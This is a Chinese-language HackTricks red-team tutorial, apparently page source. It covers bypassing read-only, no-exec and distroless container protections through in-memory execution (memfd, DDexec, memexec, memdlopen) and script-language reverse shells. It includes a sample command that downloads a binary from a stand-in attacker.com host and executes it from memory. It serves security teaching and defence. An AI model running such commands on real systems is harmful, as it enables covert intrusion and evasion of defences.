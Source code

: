 # 绕过文件系统保护：只读 / 无执行 / Distroless

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果你对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

## 视频

在以下视频中，你可以找到本页面提到的技术的更深入解释：

* [**DEF CON 31 - 探索 Linux 内存操控以实现隐蔽和规避**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**使用 DDexec-ng 和内存中的 dlopen() 进行隐蔽入侵 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 只读 / 无执行场景

在 Linux 机器上发现 **只读 (ro) 文件系统保护** 的情况越来越普遍，特别是在容器中。这是因为运行一个只读文件系统的容器就像在 `securitycontext` 中设置 **`readOnlyRootFilesystem: true`** 一样简单：

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

然而，即使文件系统被挂载为只读，**`/dev/shm`** 仍然是可写的，因此我们不能写入磁盘的说法是错误的。然而，这个文件夹将被 **挂载为无执行保护**，所以如果你在这里下载一个二进制文件，你 **将无法执行它**。

{% hint style="warning" %}
从红队的角度来看，这使得 **下载和执行** 系统中不存在的二进制文件（如后门或枚举工具如 `kubectl`）变得 **复杂**。
{% endhint %}

## 最简单的绕过：脚本

请注意，我提到的是二进制文件，只要解释器在机器内部，你可以 **执行任何脚本**，例如如果 `sh` 存在则可以执行 **shell 脚本**，或者如果安装了 **python** 则可以执行 **python 脚本**。

然而，这并不足以执行你的二进制后门或其他你可能需要运行的二进制工具。

## 内存绕过

如果你想执行一个二进制文件，但文件系统不允许这样做，最好的方法是 **从内存中执行它**，因为 **保护措施不适用于那里**。

### FD + exec 系统调用绕过

如果你在机器内部有一些强大的脚本引擎，例如 **Python**、**Perl** 或 **Ruby**，你可以将二进制文件下载到内存中执行，存储在一个内存文件描述符中（`create_memfd` 系统调用），这个描述符不会受到这些保护的影响，然后调用 **`exec` 系统调用** 指定 **fd 作为要执行的文件**。

为此，你可以轻松使用项目 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec)。你可以传递一个二进制文件，它将生成一个指定语言的脚本，包含 **压缩和 b64 编码的二进制文件** 以及 **解码和解压缩** 的指令，存储在通过调用 `create_memfd` 系统调用创建的 **fd** 中，并调用 **exec** 系统调用来运行它。

{% hint style="warning" %}
这在其他脚本语言中不起作用，例如 PHP 或 Node，因为它们没有任何 **默认方法从脚本调用原始系统调用**，因此无法调用 `create_memfd` 来创建 **内存 fd** 来存储二进制文件。

此外，使用 `/dev/shm` 中的文件创建 **常规 fd** 也不起作用，因为你将无法运行它，因为 **无执行保护** 将适用。
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) 是一种技术，允许你 **通过覆盖自己的进程的内存** 来 **修改内存**。

因此，**控制正在被进程执行的汇编代码**，你可以编写 **shellcode** 并“变异”该进程以 **执行任何任意代码**。

{% hint style="success" %}
**DDexec / EverythingExec** 将允许你加载并 **执行** 你自己的 **shellcode** 或 **任何二进制文件** 从 **内存** 中。
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
有关此技术的更多信息，请查看 Github 或：

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec) 是 DDexec 的自然下一步。它是一个 **DDexec shellcode demonised**，因此每次您想要 **运行不同的二进制文件** 时，您无需重新启动 DDexec，只需通过 DDexec 技术运行 memexec shellcode，然后 **与此守护进程通信以传递要加载和运行的新二进制文件**。

您可以在 [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php) 找到如何使用 **memexec 从 PHP 反向 shell 执行二进制文件** 的示例。

### Memdlopen

与 DDexec 具有类似目的的 [**memdlopen**](https://github.com/arget13/memdlopen) 技术允许以 **更简单的方式加载二进制文件** 到内存中以便稍后执行。它甚至可以加载带有依赖项的二进制文件。

## Distroless Bypass

### 什么是 distroless

Distroless 容器仅包含 **运行特定应用程序或服务所需的最低组件**，例如库和运行时依赖项，但排除了较大的组件，如包管理器、shell 或系统实用程序。

distroless 容器的目标是 **通过消除不必要的组件来减少容器的攻击面**，并最小化可以被利用的漏洞数量。

### 反向 Shell

在 distroless 容器中，您可能 **甚至找不到 `sh` 或 `bash`** 来获取常规 shell。您也不会找到 `ls`、`whoami`、`id` 等二进制文件……您通常在系统中运行的所有内容。

{% hint style="warning" %}
因此，您 **将无法** 获取 **反向 shell** 或 **枚举** 系统，如您通常所做的那样。
{% endhint %}

然而，如果被攻陷的容器正在运行例如 flask web，那么 python 已安装，因此您可以获取 **Python 反向 shell**。如果它正在运行 node，您可以获取 Node 反向 shell，几乎任何 **脚本语言** 都是如此。

{% hint style="success" %}
使用脚本语言，您可以 **使用语言功能枚举系统**。
{% endhint %}

如果没有 **`read-only/no-exec`** 保护，您可以利用反向 shell **在文件系统中写入您的二进制文件** 并 **执行** 它们。

{% hint style="success" %}
然而，在这种类型的容器中，这些保护通常会存在，但您可以使用 **先前的内存执行技术来绕过它们**。
{% endhint %}

您可以在 [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE) 找到 **示例**，了解如何 **利用一些 RCE 漏洞** 获取脚本语言的 **反向 shell** 并从内存中执行二进制文件。

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

如果您对 **黑客职业** 感兴趣并想要攻克不可攻克的目标 - **我们正在招聘！** (_需要流利的波兰语书写和口语能力_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
